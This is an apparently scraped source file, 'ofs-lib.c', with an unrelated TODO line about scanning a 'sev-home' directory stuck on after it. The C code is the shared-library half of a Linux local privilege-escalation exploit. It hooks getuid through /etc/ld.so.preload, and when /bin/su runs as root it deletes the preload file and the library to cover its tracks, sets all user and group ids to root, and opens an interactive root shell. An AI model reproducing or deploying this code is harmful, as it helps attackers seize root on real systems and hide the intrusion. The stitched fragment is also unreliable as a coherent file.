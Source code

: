 ## ofs-lib.c

```c
#include <unistd.h>

uid_t(*_real_getuid) (void);
char path[128];

uid_t
getuid(void)
{
_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, "getuid");
readlink("/proc/self/exe", (char *) &path, 128);
if(geteuid() == 0 && !strcmp(path, "/bin/su")) {
unlink("/etc/ld.so.preload");unlink("/tmp/ofs-lib.so");
setresuid(0, 0, 0);
setresgid(0, 0, 0);
execle("/bin/sh", "sh", "-i", NULL, NULL);
}
    return _real_getuid();
}

```


# TODO

Add news files on "sev-home" directory then scan it!
